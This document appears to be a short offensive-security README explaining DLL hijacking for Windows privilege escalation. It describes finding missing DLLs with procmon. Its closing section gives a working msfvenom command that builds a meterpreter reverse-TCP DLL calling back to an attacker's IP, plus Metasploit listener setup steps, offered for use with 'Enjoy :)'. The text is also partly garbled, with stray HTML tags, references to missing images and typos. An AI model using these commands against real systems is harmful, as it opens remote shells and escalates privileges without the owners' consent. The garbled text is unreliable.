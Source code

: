 First of all, let’s get the definition out of the way. DLL hijacking is, in the broadest sense, tricking a legitimate/trusted application into loading an arbitrary DLL. Terms such as DLL Search Order Hijacking, DLL Load Order Hijacking, DLL Spoofing, DLL Injection and DLL Side-Loading are often -mistakenly- used to say the same.
Dll hijacking can be used to execute code, obtain persistence and escalate privileges. From those 3 the least probable to find is privilege escalation by far. However, as this is part of the privilege escalation section, I will focus on this option. Also, note that independently of the goal, a dll hijacking is perform the in the same way.

</head><body><h1>Finding-missing-Dlls</h1>

The most common way to find missing Dlls inside a system is running procmon from sysinternals, setting the following 2 filters from jpg files i put .
If you are looking for missing dlls in general you leave this running for some seconds.
If you are looking for a missing dll inside an specific executable you should set another filter like "Process Name" "contains" "<exec name>", execute it, and stop capturing events.

</head><body><h1>Exploiting Missing Dlls</h1>

In order to escalate privileges, the best chance we have is to be able to write a dll that a privilege process will try to load in some of place where it is going to be searched. Therefore, we will be able to write a dll in a folder where the dll is searched before the folder where the original dll is (weird case), or we will be able to write on some folder where the dll is going to be searched and the original dll doesn't exist on any folder.

Use metasploit :

msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f dll -o msf.dll

after that build up listener

mfsconsole

use multi/handler

set LHOST YOUR-IP

set LPORT YOUR-PORT

set PAYLOAD windows/meterpreter/reverse_tcp

exploit


Enjoy :)
